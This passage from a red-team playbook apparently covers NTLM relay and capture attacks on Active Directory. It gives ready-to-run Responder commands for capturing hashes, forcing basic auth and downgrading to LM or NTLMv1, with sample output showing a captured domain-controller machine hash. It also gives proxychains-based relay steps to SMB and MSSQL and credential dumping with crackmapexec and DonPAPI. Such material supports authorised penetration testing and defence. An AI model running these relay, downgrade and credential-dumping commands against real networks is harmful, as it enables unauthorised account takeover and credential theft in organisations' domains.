							SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
							MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433
					* Use `proxychains` over port 1080 to provide auth. for compatible tools
					* `-socks` option for ntlmrelayx allows ntlmrelayx to 'suspend' an auth for later user
	* Capture
		* Basic Capturing
			* <details><summary>Responder (Click to expand)</summary><p>

					python Responder.py -I <interface>
			* <details><summary>impacket's smbserver.py (Click to expand)</summary><p>		

					python smbserver.py
		* WebDAV - Force Basic Auth
			* <details><summary>Responder (Click to expand)</summary><p>

					python Responder.py -I <interface> -b
				* `-b` - force WebDAV browser to use basic authentication (plaintext creds)
		* Downgrade Attack
			* <details><summary>Overview (Click to expand)</summary><p>
				* This is the challenge set by the `crack.sh` website/database.
				* In environments missing a stealth patch applied in Mid-2021 (August?), this works by default
				* Silent patch in 2021.09 to fix the "works by default" impact
			* Force LM Authentication
				* <details><summary>Requirements (Click to expand)</summary><p>
					* In environments missing a stealth patch applied in Mid-2021 (August?), this works by default
						* Silent patch in 2021.09 to fix the "works by default" impact
				* <details><summary>Responder (Click to expand)</summary><p>
					* Option 2: `--lm`

							python Responder.py -I $NETWORK_INTERFACE --lm
						* Example Output

								[+] Poisoning Options:                                      
								    Analyze Mode               [OFF]
								    Force WPAD auth            [OFF]
								    Force Basic Auth           [OFF]
								    Force LM downgrade         [OFF]
								    Force ESS downgrade        [ON]
								    Fingerprint hosts          [OFF]

								[+] Generic Options:                                        
								    Responder NIC              [ens33]
								    Responder IP               [10.0.0.22]
								    Challenge set              [1122334455667788]
								    Don't Respond To Names     ['ISATAP']

								[+] Current Session Variables:                              
								    Responder Machine Name     [WIN-S9VM0RELOJH]
								    Responder Domain Name      [G7JM.LOCAL]
								    Responder DCE-RPC Port     [45397]

								[+] Listening for events...                                 

								[SMB] NTLMv1-SSP Client   : 10.0.0.1
								[SMB] NTLMv1-SSP Username : SECURELAB\DC01$
								[SMB] NTLMv1-SSP Hash     : DC01$::SECURELAB:EDE0877AAA0B78747009A95EDE4DCAEC8BB556FFD18DAF3E:EDE0877AAA0B78747009A95EDE4DCAEC8BB556FFD18DAF3E:1122334455667788
								[+] Exiting...                                              
			* Disable ESS
				* <details><summary>Overview (Click to expand)</summary><p>
					* Remove SSP from authentication
					* NTLMv1-SSP --> NTLMv1
				* <details><summary>Responder (Click to expand)</summary><p>
					1. Modify Responder config to use the challenge `1122334455667788` for crack.sh compatibility.
					1. Run Responder

								python Responder.py -I <interface> --disable-ess
						* `--disable-ess`
					1. Capture coerced authentication
1. Coerce Authentication ([AD Forced Authenticaton Guide](Testaments_and_Books/Redvelations/Active_Directory/003-3_AD_Forced_Authentication.md), [`Forced Authentication` TTP](TTP/T1187_Forced_Authentication/T1187.md))
1. Optional: Socks Relay
	* <details><summary>ntlmrelayx Proxy (Click to expand)</summary><p>
		* Known Compatible Tools
			* crackmapexec
			* lsassy -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
			* donpapi
			* impacket
		* To SMB
			* Reverse Shell (See other Reverse Shell notes in this guide)
			* <details><summary>Dump Credentials (Click to expand)</summary><p>
				* Requirements
					* Local Administrator
				* <details><summary>crackmapexec (Click to expand)</summary><p>
					* `crackmapexec` makes use of `secretsdump.py` but stores output to `cmedb`, which can be quite functional

						proxychains crackmapexec smb <target> -u <username> -p ''
				* <details><summary>donpapi (Click to expand)</summary><p>
					
						proxychains python DonPAPI.py <domain>/<username>@<target> -o <outfile.txt> -no-pass
					* "Is it possible to extract a non admin users master key via a relayed (non administrative) session? No it is not, as you need the user's password to derive a key (different existing algos) that will decrypt the master key. Could you theoretically relay to RPC on a DC to extract the users master key via MS-BKRP? You would still need an admin session to access the masterkey and dpapi blobs on the target. But with those on Hand, i think you should be able to decipher the masterkey via msbkrp. I haven’t really worked on that part, maybe @gentilkiwi. can spread some light here. You need to be able to impersonate the owner of masterkeys to be able to ask the backup rpc service to decrypt it ( sid is checked ). So, being a local admin is not enough)"
			* Enumerate Local Admins
				* <details><summary>Recommended: ntlmrelayx + Crackmapexec (Click to expand)</summary><p>
					* ntlmrelayx flag: `-socks`
					
						proxychains crackmapexec smb <target> -u <username> -p '' --users
		* To MSSQL
			* <details><summary>impacket's smbclient (Click to expand)</summary><p>
				* Examples
					* Example 1

							proxychains impacket-smbclient //192.168.48.230/Users -U contoso/normaluser1
			* <details><summary>impacket's mssqlclient (Click to expand)</summary><p>
				* Examples
					* Example 1

							proxychains impacket-mssqlclient DOMAIN/USER@10.10.10.10 -windows-auth
			* <details><summary>crackmapexec (Click to expand)</summary><p>
				* Examples
					* Example 1

							proxychains crackmapexec mssql 10.10.10.10 -u user -p '' -d DOMAIN -q "SELECT 1"
1. [Cracking Guide](Testaments_and_Books/Redvelations/Accounts/003_Cracking.md)

### From a Windows Machine

1. Enumerate
	* Systems with WebClientService Running
		* Recommended: Winpwn [https://github.com/S3cur3Th1sSh1t/WinPwn](https://github.com/S3cur3Th1sSh1t/WinPwn)
		* Alternative: [https://raw.githubusercontent.com/vletoux/SpoolerScanner/master/SpoolerScan.ps1](https://raw.githubusercontent.com/vletoux/SpoolerScanner/master/SpoolerScan.ps1)
1. Initiate auth. relaying/capturing tool ([Adversary-in-the-Middle TTP](TTP/T1557_Adversary-in-the-Middle/T1557.md))
	* NTLM
		* .NET
			*  <details><summary>Inveigh (Click to expand) -<br />[https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)</summary><p>

					.\Inveigh.exe
1. Coerce Authentication ([`Forced Authentication` TTP](TTP/T1187_Forced_Authentication/T1187.md))
1. [Cracking Guide](Testaments_and_Books/Redvelations/Accounts/003_Cracking.md)


## Unexplored, Needs Testing

* <details><summary>Unexplored Relay Notes (Click to expand)</summary><p>
	* <details><summary>lsarelayx (Click to expand)</summary><p>
		* [https://twitter.com/_EthicalChaos_/status/1449428722218676224](https://twitter.com/_EthicalChaos_/status/1449428722218676224)
			* "end to end POC working for lsarelayx.  System wide NTLM relay from Windows which relays all incoming NTLM authentications without affecting the original target application.  Silent relay if you will."
		* [https://www.youtube.com/watch?v=R5gJEGQ0yjM](https://www.youtube.com/watch?v=R5gJEGQ0yjM)
			* Attack
				1. Windows: `.\lsarelayx.exe`
				1. Victim: `http://<attackerip>`; enter user info: `<domain>\<username>:<password>`
		* [https://github.com/SecureAuthCorp/impacket/pull/1190]
* <details><summary>Uncategorized (Click to expand)</summary><p>
	* [https://twitter.com/424f424f/status/1418911232250290176](https://twitter.com/424f424f/status/1418911232250290176)
	* [https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/](https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/)
	* [https://pentestlab.blog/2021/10/20/lateral-movement-webclient/](https://pentestlab.blog/2021/10/20/lateral-movement-webclient/)
	* [https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)
	* [https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/)